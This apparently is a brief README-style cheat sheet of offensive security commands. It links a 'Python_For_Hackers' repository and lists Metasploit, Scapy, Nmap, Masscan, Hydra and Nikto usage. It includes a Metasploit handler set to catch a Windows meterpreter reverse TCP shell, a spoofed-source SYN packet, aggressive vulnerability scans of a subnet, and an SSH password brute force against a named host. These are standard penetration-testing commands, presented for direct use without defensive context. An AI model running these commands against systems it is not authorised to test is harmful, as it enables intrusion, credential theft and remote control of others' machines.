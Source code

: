 ## My Scripts
https://github.com/can-ozkan/Python_For_Hackers

## Metasploit Framework
msfconsole \
use exploit/multi/handler \
set payload windows/meterpreter/reverse_tcp \
set LHOST <your-ip> \
set LPORT 4444 \
exploit

## Scapy
Sending a spoofed SYN scan \
from scapy.all import * \
send(IP(src="192.168.1.100", dst="192.168.1.1")/TCP(dport=80, flags="S"))

## Nmap
nmap -A -T4 192.168.1.0/24 \
nmap -Pn --scan vuln 192.168.1.0/24

## Masscan
masscan -p1-65535 192.168.1.0/24 --rate=10000

## Hydra
SSH Brute Force \
hydra -l admin -P passwords.txt ssh://192.168.1.10

## Nikto
nikto -h http://192.168.1.100

